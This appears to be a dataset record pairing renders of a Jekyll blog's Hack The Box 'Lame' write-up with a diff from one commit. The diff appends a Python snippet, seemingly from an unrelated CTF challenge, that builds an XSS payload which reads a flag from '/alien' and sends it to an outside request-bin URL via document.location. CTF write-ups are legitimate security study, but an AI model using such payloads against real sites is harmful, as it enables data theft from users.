

Before and after one commit to notbricey/brisee.github.io, a Jekyll site: the page built from _posts/2021-05-25-htb-lame.md, in a window 1280 px wide and 900 px high, scrolled down 20536 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 21072 px from its top, so only the background shows below that.

Commit message:
Update 2021-05-25-htb-lame.md

````diff
--- a/_posts/2021-05-25-htb-lame.md
+++ b/_posts/2021-05-25-htb-lame.md
@@ -741,3 +741,18 @@ msf6 exploit(unix/misc/distcc_exec) > exploit
 ```
 
 And... Nothing as well. Seems like SMB was the path to get to root for this box. Overall was a pretty fun box to exploit manually!
+
+```python
+def get_flag(request_bin):
+    # Prepare the payload to send a GET request
+    xml_http_request = 'var xmlHttp = new XMLHttpRequest();xmlHttp.open(\\"GET\\",\\"/alien\\",false);xmlHttp.send();'
+
+    # Extracting the flag
+    xml_http_flag = 'let flag = xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1);'
+
+    # Crafting the exfiltration url
+    exfil_request = xml_http_flag + 'document.location=\\"' + request_bin + '\\" + flag'
+
+    # Submitting the payload
+    execute_xss(xml_http_request + exfil_request)
+```
````
